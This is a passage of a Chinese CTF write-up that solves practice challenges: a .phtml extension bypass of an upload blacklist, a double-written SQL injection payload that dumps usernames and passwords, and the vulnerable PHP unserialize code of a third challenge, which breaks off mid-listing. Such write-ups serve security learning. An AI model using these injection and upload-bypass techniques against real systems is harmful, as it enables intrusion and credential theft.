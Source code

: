 改后缀为.phtml 上传

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208211716151.png)

## [ACTF2020 新生赛]Upload

上传后文件自动重命名, 后缀为黑名单过滤

方法同上, 利用 phtml

## [极客大挑战 2019]BabySQL

简单 sql 注入

关键字被替换为空, 双写绕过

```sql
1' ununionion selselectect 1,group_concat(username),group_concat(passwoorrd) frfromom b4bsql #
```

## [极客大挑战 2019]PHP

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208211733438.png)

下载 www.zip 打开

index.php 部分代码

```php
<?php
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);
?>
```

class.php

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
```